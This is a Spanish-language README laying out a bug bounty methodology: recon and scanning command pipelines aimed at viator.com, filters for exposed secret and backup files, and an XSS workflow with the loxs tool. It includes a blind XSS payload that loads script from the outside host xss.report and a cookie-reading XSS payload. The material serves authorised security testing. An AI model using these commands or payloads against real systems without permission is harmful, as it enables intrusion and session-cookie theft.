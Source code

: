 # ***I. Bug Bounty: Methodology***

`Bug Bounty Methodology` este documento sirve para tener una metodología a la hora de hacer bug bounty en programas BBP (bug bounty program) o VDP (vulnerability disclosure program). Donde encontraras comandos para ayudarte rapidamente a realizar bug bounty desde lo mas básico a lo avanzado.

### 1.1. Encontrar subdominios con subfinder

```bash
subfinder -d viator.com -all  -recursive > subdomain.txt
```

### 1.2. Usando httpx-toolkit

```bash
cat subdomain.txt | httpx-toolkit -ports 80,443,8080,8000,8888 -threads 200 > subdomains_alive.txt
```

### 1.3. Usando katana

```bash
katana -u subdomains_alive.txt -d 5 -ps -pss waybackarchive,commoncrawl,alienvault -kf -jc -fx -ef woff,css,png,svg,jpg,woff2,jpeg,gif,svg -o allurls.txt
```

### 1.4. Filtrar por extensiones

```bash
cat allurls.txt | grep -E "\.txt|\.log|\.cache|\.secret|\.db|\.backup|\.yml|\.json|\.gz|\.rar|\.zip|\.config"
```

### 1.5. Filtrar extensiones javascript

```bash
cat allurls.txt | grep -E "\.js$" >> js.txt
```

### 1.6. Usando nuclei para ver encontrar Information disclosure

```bash
cat js.txt | nuclei -t /home/sn0w/nuclei-templates/http/exposures/ 
```

### 1.7. Usando nuclei para ver encontrar Information disclosure en un sitio web

```bash
echo www.viator.com | katana -ps | grep -E "\.js$" | nuclei -t /home/sn0w/nuclei-templates/http/exposures/ -c 30
```

### 1.8. Buscar con dirsearch directorios ocultos vulnerables

```bash
dirsearch  -u https://www.viator.com -e conf,config,bak,backup,swp,old,db,sql,asp,aspx,aspx~,asp~,py,py~,rb,rb~,php,php~,bak,bkp,cache,cgi,conf,csv,html,inc,jar,js,json,jsp,jsp~,lock,log,rar,old,sql,sql.gz,http://sql.zip,sql.tar.gz,sql~,swp,swp~,tar,tar.bz2,tar.gz,txt,wadl,zip,.log,.xml,.js.,.json
```
```bash
dirsearch -u https://example.com -e php,cgi,htm,html,shtm,shtml,js,txt,bak,zip,old,conf,log,pl,asp,aspx,jsp,sql,db,sqlite,mdb,tar,gz,7z,rar,json,xml,yml,yaml,ini,java,py,rb,php3,php4,php5 --random-agent --recursive -R 3 -t 20 --exclude-status=404 --follow-redirects --delay=0.1
```

### 1.9. Buscar con subfinder, httpx, katana, gf, bxss en el sitio web vulnerabilidades xss

```bash
subfinder -d viator.com | httpx-toolkit -silent |  katana -ps -f qurl | gf xss | bxss -appendMode -payload '"><script src=https://xss.report/c/coffinxp></script>' -parameters
```

### 1.10. Ver certificados SSL vulnerable

```bash
subzy run --targets subdomains_alive.txt --verify_ssl
```
```bash
subzy run --targets subdomains_alive.txt --concurrency 100 --hide_fails --verify_ssl
```

### 1.11. CORS

```bash
python3 corsy.py -i /home/sn0w/vaitor/subdomains_alive.txt -t 10 --headers "User-Agent: GoogleBot\nCookie: SESSION=Hacked"

```
### 1.12. CORS con Nuclei

```bash
nuclei -list subdomains_alive.txt -t /home/sn0w/Priv8-Nuclei/cors
```

### 1.13. Nuclei

```bash
nuclei  -list ~/vaitor/subdomains_alive.txt -tags cve,osint,tech
```

### 1.14. LFI

```bash
cat allurls.txt | gf lfi | nuclei -tags lfi
```

### 1.15. OR Open Redirect

```bash
cat allurls.txt | gf redirect | openredirex -p /home/sn0w/openRedirect
```


-------------------------------------------------------------------------------------------------


# ***II. XSS: Methodology***

`XSS Methodology` herramientas utilizadas.
- https://github.com/lc/gau
- https://github.com/tomnomnom/gf
- https://github.com/coffinxp/gFpattren
- https://github.com/s0md3v/uro
- https://github.com/KathanP19/Gxss
- https://github.com/Emoe/kxss
- https://github.com/coffinxp/loxs


### 2.1. Encontrar un campo de entrada como un buscar en una web, primero copiar un texto y si sale not found, con control + U vemos en el código fuente si el texto se guarda en el value.
```bash
paulportanc"><img src/onerror=prompt(document.cookie)>
```

### 2.2. Automatizando.
- Buscamos mas campos que sean vulnerables a XSS
```bash
echo https://www.ejemplo.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
```
- De los campos encontrados extraemos hasta donde inicia la busqueda para pasarlo por la herramienta de loxs
```bash
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=' | sort -u > final.txt

cat final.txt
https://www.ejemplo.com/analog-watches?page=
https://www.ejemplo.com/boxers?page=
https://www.ejemplo.com/search?seach_key=
https://www.ejemplo.com/home-storage-supplies?page=
https://www.ejemplo.com/wall-clock?page=
....
```
- Mover el archivo final.txt al directorio donde esta la herramienta loxs https://github.com/coffinxp/loxs
```bash
mv final.txt loxs
cd loxs
python loxs.py
```
- Elegir la opción 4 de la herramienta XSS Scanner. En la primera pregunta escribimos final.txt que buscara nuestro archivo que hemos movido al directorio de la herramienta. Y en la segunda pregunta escogemos e payload xss.txt, finalmente en el tiempo por cada solicitud damos enter.
```bash
[?] enter the pat to the input file containing URLs (or press enter to enter a single UR): final.txt
[?] Enter the path to the payloads file: payloads/xss.txt
Enter the timeout duration for each request (Press Enter for 0.5): "Presionar enter"
```


> [!Warning]
> 
> # DISCLAIMER
> Este documento está destinado únicamente para fines educativos y de hacking ético. Sólo debe utilzarse para probar sistemas de su propiedad o para los que tenga permiso explícito para probar. El uso no autorizado de sitios web o sistemas de terceros sin consentimiento es ilegal y poco ético.
